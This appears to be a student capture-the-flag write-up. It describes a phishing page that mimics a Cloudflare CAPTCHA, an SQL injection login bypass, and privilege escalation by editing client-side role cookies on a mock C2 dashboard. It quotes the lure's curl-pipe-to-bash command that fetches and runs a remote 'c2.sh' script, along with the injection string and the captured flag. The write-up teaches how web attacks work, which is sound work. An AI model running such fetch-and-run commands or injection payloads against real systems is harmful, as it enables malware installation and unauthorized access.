


# CTF League - Oopsies

## Challenge

The only information provided for this challenge was a [website](https://drgecko.xyz/ctf/fix) containing a phishing site replicating the Cloudflare CAPTCHA, which asked a user to run `nohup bash -c 'curl -fsSL https://drgecko.xyz/malware/c2.sh | bash' > nohup.out 2>&1 &` in the `WIN + R` command wizard. By the resource path, it seems obvious that this is malware, specifically a c2 client, so instead of installing the malware to our machines, we used the resource path to investigate more pages on the site, eventually finding a [login page](https://drgecko.xyz/ctf/login).

Because this challenge didn't give any information about what the vulnerability might be, we tried several possible vulnerabilities, eventually finding that this login page was vulnerable to SQL Injection. By providing a password in the form `password' or 1=1;-- `, the authentication check succeeds, despite us not knowing the password. In this case, the server code for the login api route is not properly sanitzing the input, and ends up executing a SQL command something like 

```sql
SELECT User WHERE username=${username} AND password=${PASSWORD};
```

Where our example input evaluates to:
```sql
SELECT User WHERE username='admin' AND password='password' OR 1=1;--;
```

Because of the order of operations for boolean logic in the where clause, the password check succeeds, despite being incorrect. This results in the page redirecting us as an authenticated user to an admin dashboard.



The most interesting part of this page is the chat window to send commands and recieve responses from clients of the C2 sever. Requesting to run the command `cat flag` results in the response "Operators do not have permission". This suggests that we need to somehow escalate our priveledge, as the page shows, there are two users Operator, and EvilCorp. 

Inspecting the javascript the page loads, we can see they have user account and authorization information stored in cookies on the client. 


```js
document.addEventListener('DOMContentLoaded', () => {
    var username=Cookies.get("username");
	var role = Cookies.get("role");
	var email_data = Cookies.get("email");
    ...
});
```
This is extremely insecure, as if there is no validation of our role on the server, we can modify the cookies in the browser dev tools to make our account higher priveledge on our own. By modifying the `role` and `username` cookie to `EvilCorp`. We can see we are now logged into 'EvilCorp', with role `EvilCorp`. 

.

Running the `cat flag` command again, we now have the necessary permissions, and get the flag `OSU{DF1r_1s_FuN}`